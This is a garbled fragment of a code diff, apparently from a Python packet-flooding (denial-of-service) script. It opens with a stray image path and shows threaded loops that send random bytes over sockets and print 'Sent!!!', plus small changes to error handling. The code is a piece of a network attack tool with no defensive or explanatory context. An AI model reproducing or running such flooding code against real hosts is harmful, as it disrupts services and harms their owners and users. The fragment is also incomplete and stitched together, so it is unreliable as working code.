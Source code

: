 s.sendto(data,addr)
			print(i +" Sent!!!")
		except:
			print(i +" Sent!!!")
			print("[!] Error!!!")

def run2():
	data = random._urandom(16)
@@ -36,10 +36,8 @@ def run2():
				s.send(data)
			print(i +" Sent!!!")
		except:
			print(i +" Sent!!!")
			pass
			#s.close()
			#print("[*] Error")
			s.close()
			print("[*] Error")

for y in range(threads):
	if choice == 'y':
--->
